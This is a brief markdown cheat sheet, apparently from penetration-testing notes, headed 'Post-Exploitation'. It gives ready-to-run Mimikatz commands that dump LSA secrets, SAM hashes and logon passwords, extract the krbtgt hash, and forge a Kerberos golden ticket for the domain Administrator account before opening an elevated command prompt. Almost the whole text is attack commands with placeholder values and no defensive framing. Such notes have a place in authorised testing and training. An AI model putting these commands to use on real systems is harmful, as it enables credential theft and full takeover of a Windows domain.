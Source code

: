 
# Post-Exploitation 

## Mimikatz

```mimikatz
privilege::debug
token::elevate
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```mimikatz
privilege::debug
lsadump::lsa /patch
```

### Golden Ticket Attacks

```mimikatz
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`,then  
open command prompt with elevated privileges `misc::cmd`.


